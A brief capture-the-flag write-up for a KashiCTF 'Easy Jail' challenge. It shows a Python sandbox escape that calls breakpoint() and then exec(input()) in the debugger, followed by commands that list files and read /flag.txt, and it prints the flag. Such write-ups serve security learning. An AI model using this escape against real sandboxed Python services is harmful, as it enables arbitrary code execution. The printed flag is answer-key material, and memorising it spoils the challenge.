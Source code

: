# Easy Jail
Solved by: @OS1R1S

### Question
I made this calculator. I have a feeling that it's not safe :(

### Solution:
Payload:
1. `>> breakpoint()`
2. `(Pdb) exec(input())`

```
ls
chall.py
entrypoint.sh
cat /flag.txt
KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_l4sLT13J}
```

**Flag:** `KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_l4sLT13J}`

